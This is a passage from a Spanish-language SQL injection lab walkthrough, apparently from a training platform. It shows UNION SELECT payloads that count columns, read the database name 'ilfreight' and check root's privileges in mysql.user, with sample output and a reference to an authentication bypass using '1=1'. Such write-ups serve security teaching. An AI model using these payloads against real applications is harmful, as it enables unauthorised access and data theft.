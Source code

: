 Se accede sin credenciales.

**Explicación**: Este payload fuerza la condición verdadera (`1=1`), eludiendo la autenticación y demostrando que la entrada no está correctamente filtrada.

---

## Paso 2: Inyección en el apartado "search"

**Query**:

```sql
' UNION SELECT 1,2,3,4,5-- -
```

**Resultado**:

```
Payroll Information
Adam	January	1337$	5%
James	March	1213$	8%
2	3	4	5
```

**Explicación**: El `UNION SELECT` permite combinar resultados de distintas consultas; esto confirma que la inyección funciona y revela el número de columnas (5 en este caso).

---

## Paso 3: Extracción de nombre de base de datos

**Query**:

```sql
' UNION SELECT 1,2,database(),4,5-- -
```

**Resultado**:

```
...
2	ilfreight	4	5
```

Base de datos actual: **ilfreight**.

**Explicación**: La función `database()` devuelve el nombre de la base activa, útil para enfocar futuras consultas.

---

## Paso 4: Verificar privilegios de `root`

**Query**:

```sql
' UNION SELECT 1, super_priv, 3, 4, 5
  FROM mysql.user
  WHERE user='root'-- -
```

